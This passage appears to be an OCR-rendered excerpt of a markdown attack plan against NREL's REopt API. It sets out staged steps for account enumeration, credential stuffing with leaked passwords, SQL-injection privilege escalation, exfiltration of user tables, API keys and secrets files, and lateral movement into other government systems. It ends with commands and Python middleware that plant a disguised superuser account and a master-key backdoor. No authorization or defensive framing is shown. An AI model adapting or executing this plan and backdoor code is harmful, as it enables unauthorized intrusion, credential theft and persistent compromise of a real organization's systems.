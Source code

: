 
#### 5.2 Authentication Bypass Chain

**Multi-Stage Attack:**

1. **Stage 1:** Username enumeration (CVE-2024-39329)
   - Identify admin/privileged accounts
   - Result: `admin`, `root`, `nrel_admin`, `api_manager`

2. **Stage 2:** Password reset timing attack
   - Confirm which accounts have valid email addresses
   - Result: `admin@nrel.gov` exists

3. **Stage 3:** Credential stuffing
   - Use leaked password databases (Have I Been Pwned)
   - Try common government/research institution passwords
   - Result: Successful login as `nrel_admin`

4. **Stage 4:** Privilege escalation
   - Exploit SQL injection (CVE-2024-39330) to promote account
   - Or exploit Django admin interface vulnerabilities
   - Result: Full administrative access

---

#### 5.3 Data Exfiltration

**Post-Exploitation Objectives:**

1. **Database Access:**
   - Use SQL injection to dump user tables
   - Extract API keys, credentials, email addresses
   - Download renewable energy project data

2. **File System Access:**
   - If RCE achieved, access `/app/`, `/config/`
   - Retrieve `keys.py` with secrets
   - Download uploaded files containing proprietary data

3. **API Abuse:**
   - Use compromised credentials to access NREL Developer API
   - Extract energy optimization algorithms
   - Scrape all available renewable energy datasets

4. **Lateral Movement:**
   - Pivot to internal NREL infrastructure
   - Exploit trust relationships with other government systems
   - Access related projects (REopt.jl, other NREL APIs)

---

### Phase 4: Persistence & Impact (30 minutes)

#### 6.1 Maintaining Access

**Backdoor Creation:**
```python
# Add backdoor user to Django admin
python manage.py createsuperuser \
  --username system_monitor \
  --email system@localhost

# Inject backdoor in middleware (if file write access)
# reopt_api/middleware/auth.py
class BackdoorMiddleware:
    def __call__(self, request):
        if request.GET.get('master_key') == 'SECRET_VALUE':
            request.user = User.objects.filter(is_superuser=True).first()
        return self.get_response(request)
```
